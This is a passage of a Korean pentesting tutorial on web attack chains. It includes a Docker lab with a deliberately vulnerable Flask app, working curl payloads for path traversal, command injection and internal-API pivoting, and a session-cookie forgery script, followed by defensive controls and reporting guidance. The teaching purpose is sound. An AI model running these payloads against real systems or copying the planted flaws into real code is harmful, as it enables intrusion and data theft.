| 3b. 역직렬화 RCE | 서명된 직렬화 데이터(pickle 세션, ViewState) 위조 | 서버 코드 실행 | 서명 뒤 위험 deserializer로 복원 + 가젯 존재 | [[웹 취약점 진단 역직렬화편 — 포맷 식별부터 가젯 체인 검증까지#3. Python `pickle`과 PyYAML — 데이터 파일처럼 보이는 코드 경로\|역직렬화편 3절]], [[웹 취약점 진단 역직렬화편 — 포맷 식별부터 가젯 체인 검증까지#4. .NET — `BinaryFormatter`와 ViewState MAC을 분리해서 보기\|4절]] |
| 3c. 소스 기반 POP | 소스에서 매직 메서드 클래스를 찾아 객체 주입 | 파일 삭제·코드 실행 | `unserialize()`에 사용자 값 | [[웹 취약점 진단 역직렬화편 — 포맷 식별부터 가젯 체인 검증까지#2. PHP — `unserialize()`, POP 체인, `phar://`\|역직렬화편 2절]] |

**왜 키 하나가 두 갈래로 갈라지는가**: 서명키는 "이 데이터는 서버가 만든 것"이라는 보증입니다. 세션이 단순 JSON이면 키 유출은 **인증 우회(3a)**에서 멈추지만, 서명 뒤에 pickle·BinaryFormatter 같은 객체 복원이 있으면 같은 키가 **코드 실행(3b)**까지 엽니다([[웹 취약점 진단 역직렬화편 — 포맷 식별부터 가젯 체인 검증까지#6. 공통 조치 — 허용 목록과 서명의 정확한 위치|역직렬화편 6절]]).

**체인이 끊기는 지점**: XML 파서 DTD 비활성화와 경로 정규화(1단계), 키를 파일 밖 시크릿 저장소에 두고 회전(2단계), 서명 데이터라도 안전한 포맷(JSON)만 복원(3b).

---

## 시나리오 f. OS 명령 주입 → 내부 서비스 도달 → 피벗 → 내부 AD로 넘어가는 지점

> [!info] 실습 위치
> 1~2단계 "명령 실행 → 환경·내부 서비스 확인"은 이 글의 [[#끝까지 이어서 해 보는 실습 — Docker 체인 랩|체인 랩]]에서 직접 검증했습니다. 대화형 셸 확보, 터널 도구, AD 단계는 **허가된 랩 네트워크**(OSCP·HTB 랩, 사내 승인 테스트베드)에서만 하며, 그 절차는 기존 피벗팅·AD 글에 이미 정리돼 있으므로 링크로 넘깁니다.

| 단계 | 기법 | 얻는 것 | 다음으로 넘어가는 조건 | 근거 |
|---|---|---|---|---|
| 1. 명령 실행 | 셸 구분자, Blind면 시간·OOB, 셸이 없으면 인자 주입 | 웹 프로세스 권한의 명령 실행 | 입력이 셸 문자열·옵션 위치에 들어감 | [[웹 취약점 진단 OS 명령 주입편 — 셸 문맥부터 Blind와 인자 주입까지#1. 셸 문맥별 구분자 — `;`, `|`, `&&`, `$()`, 줄바꿈\|명령 주입편 1절]], [[웹 취약점 진단 OS 명령 주입편 — 셸 문맥부터 Blind와 인자 주입까지#2. Blind 명령 주입 — 시간, 파일, localhost OOB로 증명하기\|2절]], [[웹 취약점 진단 OS 명령 주입편 — 셸 문맥부터 Blind와 인자 주입까지#3. 인자 주입 — 셸이 없어도 `curl`, `tar`, `git`, `find`가 해석한다\|3절]] |
| 2. 내부 식별 | 환경 변수·라우팅·설정 확인, 내부 서비스에 서버발 요청 | 내부 서브넷, 내부 서비스 주소, 토큰 | 서버가 멀티홈이거나 내부망에 붙어 있음 | [[펜테스터를 위한 네트워크 피벗팅과 터널링 — SSH, Chisel, Ligolo-ng, Proxychains#2. 멀티홈 호스트에서 내부 서브넷 식별\|피벗팅 2절]] |
| 3. 대화형 채널·피벗 | 안정적 셸 확보 후 SOCKS·TUN 터널로 내부망 라우팅 | 내부 호스트에 직접 도구 실행 | 서버→공격자 egress 또는 터널 트래픽 허용 | [[펜테스터를 위한 네트워크 피벗팅과 터널링 — SSH, Chisel, Ligolo-ng, Proxychains#7. Egress Filtering 환경의 설계와 운영\|피벗팅 7절]], [[펜테스터를 위한 네트워크 피벗팅과 터널링 — SSH, Chisel, Ligolo-ng, Proxychains#6. Ligolo-ng와 TUN 기반 L3 터널링\|6절]] |
| 4. 로컬 권한 상승(선택) | SUID·capabilities·cron·docker.sock | root 또는 호스트 제어 | 잘못된 권한 설정 존재 | [[Linux 권한상승을 위한 OS 내부구조 — SUID, Capabilities, PATH, cron와 systemd#7. linPEAS 출력을 취약점이 아니라 가설 목록으로 읽기\|Linux 권한상승 7절]], [[클라우드 인프라 진단 — 컨테이너·Kubernetes 탈출#2. `docker.sock`과 `hostPath` — 호스트 제어면을 파드에 넣는 경우\|컨테이너 탈출 2절]] |
| 5. AD 진입 | 웹 설정의 도메인 서비스 계정·DB 연결 문자열로 인증 → Kerberoasting 등 | 도메인 계정·티켓 | 웹 서버나 DB가 도메인 계정을 씀 | [[윈도우 AD 침투 — 자격증명 피벗·권한상승 3가지 기법#2. 애플리케이션이 DB에 평문 자격증명을 저장 (개발 잔재 악용)\|AD 침투 2절]], [[AD 환경 Kerberos 체인 공격 — 위임 남용과 토큰 가장으로 DC 장악#2. Kerberoasting — 서비스 계정의 TGS를 오프라인 크랙\|Kerberos 체인 2절]] |

**웹과 AD의 접점은 "설정 파일 속 도메인 계정"입니다.** 웹 서버의 DB 연결 문자열이나 서비스 계정이 도메인 계정이면, 명령 실행으로 읽은 그 자격증명이 [[공격 체인 이전의 AD 아키텍처 기초 — Kerberos, NTLM, DACL·ACE, GPO·SYSVOL, 도메인 트러스트|AD 아키텍처]] 안의 유효 계정이 됩니다. 이 지점부터는 웹 진단이 아니라 내부망·AD 진단으로 전환하고, 전환 사실 자체를 보고서에 명시합니다.

**체인이 끊기는 지점**: 셸을 쓰지 않는 안전한 API 호출(1단계), egress 차단(2~3단계), 웹 서버·DB에 전용 로컬 계정 사용(5단계).

---

## 시나리오 g. Path Traversal 다운로드 핸들러 → 설정·백업 → 계정 → 관리 콘솔

> [!info] 실습 위치
> 1단계는 PortSwigger [Lab: File path traversal, simple case](https://portswigger.net/web-security/file-path-traversal/lab-simple)와 [[웹 취약점 진단 경로 조작·파일 포함편 — 정규화 우회에서 LFI·RFI까지#9. 파일 다운로드 기능 — 경로와 인가를 함께 본다|경로 조작편 9절]]으로, 2~4단계의 "설정 읽기 → 자격증명 → 관리자 로그인"은 이 글의 [[#끝까지 이어서 해 보는 실습 — Docker 체인 랩|체인 랩]]에서 직접 검증했습니다.

| 단계 | 기법 | 얻는 것 | 다음으로 넘어가는 조건 | 근거 |
|---|---|---|---|---|
| 1. 다운로드 경로 조작 | `name`·`path` 파라미터에 `../`, 인코딩·이중 인코딩 | 기준 디렉터리 밖 파일 읽기 | 입력이 경로에 정규화 없이 결합 | [[웹 취약점 진단 경로 조작·파일 포함편 — 정규화 우회에서 LFI·RFI까지#1. Path Traversal — 인코딩·이중 인코딩·정규화 우회\|경로 조작편 1절]], [[웹 취약점 진단 경로 조작·파일 포함편 — 정규화 우회에서 LFI·RFI까지#9. 파일 다운로드 기능 — 경로와 인가를 함께 본다\|9절]] |
| 2. 설정·백업 수집 | 설정 파일·백업·소스 다운로드 | DB·세션·관리자 자격증명 단서 | 비밀이 읽을 수 있는 경로에 있음 | [[웹 취약점 진단 경로 조작·파일 포함편 — 정규화 우회에서 LFI·RFI까지#10. 읽어야 할 고가치 파일 — 영향 확인은 최소한으로\|경로 조작편 10절]] |
| 3. 계정 확보 | 평문 비밀번호로 로그인, 또는 서명키로 세션 위조 | 유효 사용자·관리자 세션 | 비밀번호 재사용, 또는 서명키 유출 | [[웹 취약점 진단 인증편 — 계정 잠금 우회부터 세션 하이재킹까지#1. 계정 잠금 (Account Lockout) 우회\|인증편 1절]] |
| 4. 관리 콘솔 | 관리 기능으로 추가 공격(업로드·명령·설정 변경) | 데이터·실행 | 관리 기능에 위험 동작이 있음 | [[웹 취약점 진단 인프라편 — CI-CD와 클라우드 설정 노출#3. 파이프라인 시크릿 유출\|인프라편 3절]] |

다운로드 핸들러는 **경로 조작과 인가 실패가 겹치는** 자리입니다. `fileId`가 안전한 숫자여도 남의 파일을 받을 수 있으면([[웹 취약점 진단 인가편 — 권한 매트릭스로 BOLA·BFLA 찾기|BOLA]]) 그 자체로 데이터 유출이고, `path`·`name`이 조작되면 설정·백업까지 번집니다. 체인 랩의 1~3단계가 바로 이 경로입니다.

---

## 끝까지 이어서 해 보는 실습 — Docker 체인 랩

앞 시나리오 b·f·g의 공통 뼈대(**경로 조작 → 설정 파일 자격증명 → 관리자 로그인 → 관리자 전용 명령 주입 → 내부 전용 API 피벗**)를 한 번에 잇는 최소 랩입니다. 세 단계 이상이 한 흐름으로 이어지는 것을 보기 위한 것이며, 포트는 `127.0.0.1`에만 공개하고 내부 API는 `internal` Docker 네트워크로 **외부에서 직접 닿지 않게** 격리합니다. 취약 동작은 의도적으로 넣었으므로 **공인 IP에 올리지 마세요.**

> [!success] 직접 검증
> 2026-11-27 Docker Engine 29.5.2 / Compose v5.1.3에서 아래 전체를 빌드·실행하고, 경로 조작으로 설정 파일 읽기 → 그 비밀번호로 관리자 로그인(및 유출된 `secret_key`로 세션 쿠키 위조) → 관리자 명령 주입으로 내부망 식별 → 내부 전용 API에서 `CHAIN_LAB_FLAG_OK` 회수까지 **처음부터 끝까지** 확인했습니다. 내부 API가 호스트에서 직접은 닿지 않고(`curl 127.0.0.1:9000` 연결 거부) 포털 경유로만 닿는 것, 잘못된 서명키로 만든 쿠키가 403으로 거부되는 것도 함께 확인했습니다.

### 파일 구조

```text
killchain-lab/
├── compose.yaml
├── forge_session.py
├── portal/
│   ├── Dockerfile
│   ├── app.py
│   ├── config/portal.ini
│   └── files/notice.txt
└── internal/
    ├── Dockerfile
    └── app.py
```

### `compose.yaml`

```yaml
services:
  portal:
    build: ./portal
    environment:
      INTERNAL_API_URL: http://internal-api:9000
      INTERNAL_API_TOKEN: LAB-INTERNAL-TOKEN-7f3a
    ports:
      - "127.0.0.1:18888:8000"
    networks: [front, back]
    depends_on: [internal-api]
  internal-api:
    build: ./internal
    networks: [back]

networks:
  front: {}
  back:
    internal: true   # internal-api는 호스트·외부에서 직접 닿지 않는다
```

### `portal/Dockerfile`

```dockerfile
FROM ghcr.io/astral-sh/uv:python3.12-bookworm-slim
RUN uv pip install --system "flask==3.1.2" && useradd -m portal
WORKDIR /app
COPY app.py .
COPY files/ files/
COPY config/ config/
USER portal
CMD ["python", "app.py"]
```

### `portal/app.py`

```python
import configparser
import os
import subprocess

from flask import Flask, abort, request, send_file, session

BASE_DIR = "/app/files"
config = configparser.ConfigParser()
config.read("/app/config/portal.ini")

app = Flask(__name__)
app.secret_key = config["flask"]["secret_key"]
# Lab flaw: the admin password equals the DB password (credential reuse).
ADMIN_PASSWORD = config["database"]["password"]


@app.get("/download")
def download():
    # Lab flaw 1: user input joined to a base path without normalization.
    path = os.path.join(BASE_DIR, request.args.get("name", "notice.txt"))
    if not os.path.isfile(path):
        abort(404)
    return send_file(path, mimetype="text/plain")


@app.post("/login")
def login():
    if (request.form.get("username") == "admin"
            and request.form.get("password") == ADMIN_PASSWORD):
        session["user"] = "admin"
        return "LOGIN_OK\n"
    abort(401)


@app.post("/admin/lookup")
def lookup():
    if session.get("user") != "admin":
        abort(403)
    host = request.form.get("host", "")
    # Lab flaw 2: admin-only DNS lookup builds a shell string.
    result = subprocess.run(
        f"getent hosts {host}", shell=True,
        capture_output=True, text=True, timeout=10,
    )
    return result.stdout + result.stderr


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8000)
```

### `portal/config/portal.ini`

```ini
; Lab-only fake values. Never reuse these anywhere.
[flask]
secret_key = lab-secret-key-do-not-use

[database]
host = db.internal.example.com
user = portal
password = Lab-Reuse-2026!
```

### `portal/files/notice.txt`, `internal/Dockerfile`, `internal/app.py`

```text
PUBLIC_NOTICE_OK
```

```dockerfile
FROM ghcr.io/astral-sh/uv:python3.12-bookworm-slim
RUN uv pip install --system "flask==3.1.2"
WORKDIR /app
COPY app.py .
CMD ["python", "app.py"]
```

```python
from flask import Flask, abort, request

app = Flask(__name__)
TOKEN = "LAB-INTERNAL-TOKEN-7f3a"


@app.get("/api/customers/export")
def export():
    if request.headers.get("X-Internal-Token") != TOKEN:
        abort(401)
    return "INTERNAL_API_REACHED: CHAIN_LAB_FLAG_OK\n"


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=9000)
```

### 실행과 단계별 따라하기

```bash
docker compose -p killchain-lab up --build -d
B=http://127.0.0.1:18888
```

**1단계 — 경로 조작으로 설정 파일 읽기** (시나리오 g·b의 진입)

```bash
curl -sG "$B/download" --data-urlencode 'name=../config/portal.ini'
# 기대: [database] ... password = Lab-Reuse-2026! 그리고 secret_key = lab-secret-key-do-not-use
```

**2단계 — 유출된 비밀번호로 관리자 로그인** (자격증명 재사용)

```bash
# 로그인 전에는 관리 기능이 403
curl -s -o /dev/null -w '%{http_code}\n' -X POST "$B/admin/lookup" -d host=127.0.0.1   # 403
# 설정 파일의 DB 비밀번호가 곧 관리자 비밀번호다
curl -s -c jar.txt -X POST "$B/login" \
  --data-urlencode username=admin --data-urlencode 'password=Lab-Reuse-2026!'           # LOGIN_OK
```

**3단계 — 관리자 전용 명령 주입으로 내부망 식별** (시나리오 f)

```bash
curl -s -b jar.txt -X POST "$B/admin/lookup" --data-urlencode 'host=127.0.0.1; env | grep INTERNAL_'
# 기대: INTERNAL_API_URL / INTERNAL_API_TOKEN 노출
curl -s -b jar.txt -X POST "$B/admin/lookup" --data-urlencode 'host=127.0.0.1; getent hosts internal-api'
# 기대: 172.x.x.x  internal-api  (내부 전용 네트워크의 주소)
```

**4단계 — 포털을 발판으로 내부 전용 API 피벗**

```bash
curl -s -m 3 http://127.0.0.1:9000/ ; echo " <- 호스트에서 직접은 연결 거부(exit 7)"
# 포털 프로세스에서 내부 API 호출(명령 주입으로 실행)
curl -s -b jar.txt -X POST "$B/admin/lookup" --data-urlencode \
 'host=x; python3 -c "import os,urllib.request as u; r=u.Request(os.environ[\"INTERNAL_API_URL\"]+\"/api/customers/export\", headers={\"X-Internal-Token\": os.environ[\"INTERNAL_API_TOKEN\"]}); print(u.urlopen(r).read().decode())"'
# 기대: INTERNAL_API_REACHED: CHAIN_LAB_FLAG_OK
```

호스트에서 `127.0.0.1:9000`은 연결이 거부되지만(내부 네트워크 격리), **이미 안쪽에 있는 포털 프로세스**를 거치면 내부 API에 닿습니다. 이것이 "웹 서버는 이미 내부망의 일부"라는 명제의 최소 증명입니다.

### 5단계 대체 경로 — 서명키로 관리자 세션 위조

2단계에서 비밀번호 재사용이 없더라도, 1단계에서 읽은 `secret_key`만으로 세션 쿠키를 위조할 수 있습니다(시나리오 e의 3a). Flask의 서명 직렬화기로 `{"user":"admin"}`에 서명합니다.

### `forge_session.py`

```python
import sys

from flask import Flask
from flask.sessions import SecureCookieSessionInterface

app = Flask(__name__)
app.secret_key = sys.argv[1]
serializer = SecureCookieSessionInterface().get_signing_serializer(app)
print(serializer.dumps({"user": "admin"}))
```

```bash
C=$(uv run --with flask==3.1.2 python forge_session.py lab-secret-key-do-not-use)
curl -s -b "session=$C" -X POST "$B/admin/lookup" --data-urlencode 'host=127.0.0.1; id'
# 기대: uid=1000(portal) ... (로그인 없이 관리자 기능 실행)

# 틀린 키로 만든 쿠키는 거부된다 — 서명 검증이 동작한다는 증거
WRONG=$(uv run --with flask==3.1.2 python forge_session.py wrong-key)
curl -s -o /dev/null -w '%{http_code}\n' -b "session=$WRONG" -X POST "$B/admin/lookup" -d host=127.0.0.1   # 403
```

### 정리

```bash
docker compose -p killchain-lab down -v
```

이 랩은 **단일 CVE가 아니라 평범한 세 결함(정규화 없는 다운로드, 자격증명 재사용, 관리자 기능의 셸 호출)이 이어질 때** 외부에서 내부 전용 데이터까지 닿는 과정을 보여 줍니다. 각 결함은 개별 등급이 중간이어도, 이어졌을 때의 종합 위험은 높습니다.

---

## 방어 관점 — 체인을 끊는 지점과 탐지 지점

### 하나로 여러 체인을 끊는 통제

취약점을 하나씩 막는 것보다, **여러 시나리오가 함께 지나가는 길목**을 막는 편이 비용 대비 효과가 큽니다.

| 통제 | 동시에 끊는 시나리오 | 왜 여러 개를 끊나 |
|---|---|---|
| 애플리케이션 egress 차단(메타데이터 주소·임의 외부) | a(IMDS), f(리버스·터널), d/명령 주입 OOB | 서버발 요청과 외부 콜백이 공통 전이 경로 |
| 시크릿을 파일 밖(KMS·Vault)으로, 최소 권한·회전 | b, e, g | 설정·소스를 읽혀도 자격증명이 없으면 ④가 끊김 |
| 자격증명 재사용 금지 + 관리 접속 MFA | d, g, f(AD 진입) | "읽은 비밀번호를 다른 데 쓴다"는 ⑤의 공통 조건 제거 |
| 업로드 저장소 분리·실행 금지, 웹 루트 쓰기 금지 | b, c(4단계), g | ③ 실행으로의 전이를 막음 |
| 서버측 세션 저장소(불투명 세션 ID) | c, e(3a) | 서명키를 읽혀도 세션 위조가 안 됨 |
| 위험 deserializer 제거·허용 목록 | e(3b), c(일부) | 서명·소스 노출이 RCE로 번지는 것을 차단 |
| 출력 인코딩 + 엄격한 CSP | c(1~2단계) | 브라우저 실행이라는 체인 시작점을 제거 |

### 탐지 지점 — 체인 단계별 로그·이벤트

| 단계 | 봐야 할 신호 | 로그·이벤트 원천 |
|---|---|---|
| ② 침투 | 한 파라미터에 `../`·`UNION`·`<!ENTITY`·셸 구분자, 비정상 Content-Type | WAF, 애플리케이션 요청 로그 |
| ③ 실행 | 웹 프로세스의 셸·인터프리터 **자식 프로세스**, 업로드 직후 새 확장자 GET | EDR 프로세스 트리, 접근 로그 |
| ④ 자격증명 | 웹 프로세스가 `169.254.169.254`로 PUT/GET, 설정·키 파일 open | 호스트 감사(auditd), VPC Flow·메타데이터 접근 |
| ④ 세션 | 로그인 없이 유효한 관리자 세션, 평소와 다른 IP의 세션 재사용 | 인증·세션 로그 |
| ⑤ 내부 이동 | 웹 서버 → 내부 서비스의 새 연결, 비밀번호 재사용 로그인, Kerberoast TGS 요청 | 내부 Flow 로그, Windows 4769/4624 |
| ⑥ 목표 | 대량 다운로드·열거, 비정상 시간대 접근 | 애플리케이션·DB 감사 로그 |

핵심은 **단계들을 trace ID·세션 ID·소스 IP로 연결**하는 것입니다. 개별 이벤트는 정상처럼 보여도, "경로 조작 → 로그인 → 관리 명령 → 내부 연결"이 한 세션에서 몇 분 안에 일어나면 체인입니다([[모의해킹 리포트 작성법 — 재현 가능한 증적과 경영진 요약 쓰기#2. 진단 중 실시간 기록 — 기억이 아니라 증적에서 쓰기|증적 기록]]).

---

## 진단 보고서에 체인을 쓰는 법

개별 취약점 등급과 **체인 영향(종합 위험)**을 분리해 적습니다. 개별 등급은 CVSS 같은 기준으로, 종합 위험은 "이어졌을 때 실제로 닿는 자산"으로 평가합니다. 발견사항 템플릿은 [[모의해킹 리포트 작성법 — 재현 가능한 증적과 경영진 요약 쓰기#3. 발견사항 구성 — 이 블로그의 권장 템플릿|리포트 작성법 3절]]을 따릅니다.

```text
[CHAIN-01] 외부 다운로드 기능에서 내부 전용 고객 API까지 (종합 위험: High)

종합 위험: High — 인증 없는 외부 요청만으로 내부 전용 데이터에 도달
  개별 구성 취약점:
  - FIND-11 다운로드 경로 조작 (Medium, CWE-22)
  - FIND-12 설정 파일 내 평문 자격증명·재사용 (Medium, CWE-798)
  - FIND-13 관리자 기능 OS 명령 주입 (High, CWE-78)

재현 경로(요약):
  1. GET /download?name=../config/portal.ini   → DB·세션 비밀 노출   [FIND-11]
  2. 노출된 비밀번호로 /login 관리자 인증        → 관리자 세션        [FIND-12]
  3. POST /admin/lookup 명령 주입으로 내부망 식별 → 내부 토큰·주소     [FIND-13]
  4. 포털 경유로 internal-api 호출              → 고객 데이터 회수

전이 조건(끊는 지점):
  - 2단계는 자격증명 재사용 금지로, 3단계는 셸 미사용 API로 끊김
  - 어느 한 고리만 끊어도 종합 위험이 Medium 이하로 내려감

증적: 요청/응답 캡처 4건, 타임스탬프, 반환된 고정 marker(CHAIN_LAB_FLAG_OK)
```

이렇게 쓰면 경영진 요약에는 "중간 등급 세 개가 이어져 고객 데이터 유출 가능(High)"이라고 번역할 수 있고, 개발팀에는 "어느 한 고리를 먼저 끊으면 되는가"를 제시할 수 있습니다([[모의해킹 리포트 작성법 — 재현 가능한 증적과 경영진 요약 쓰기#5. 경영진 요약 — 기술 발견을 사업 결정으로 번역하기|경영진 요약]]).

---

## 마무리

킬체인 진단의 핵심은 "더 센 익스플로잇"이 아니라 **전이 조건을 정확히 기록하는 것**입니다. 각 단계에서 무엇을 얻었고, 다음 단계가 왜 성립했는지(또는 왜 끊겼는지)를 네 칸으로 남기면, 그대로 재현 절차가 되고 방어팀에게는 "한 고리만 끊으면 된다"는 실행 가능한 결론이 됩니다. 개별 취약점의 깊은 내용은 각 심화편으로, 내부망·AD·클라우드로 넘어간 뒤는 [[OSCP 추천 도구]]부터 시작하는 시스템·AD 트랙과 클라우드 트랙으로 이어서 보세요.

### 출처

- [MITRE ATT&CK — Enterprise Matrix](https://attack.mitre.org/matrices/enterprise/)
- [Lockheed Martin — The Cyber Kill Chain](https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html)
- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [OWASP Secrets Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Secrets_Management_Cheat_Sheet.html)
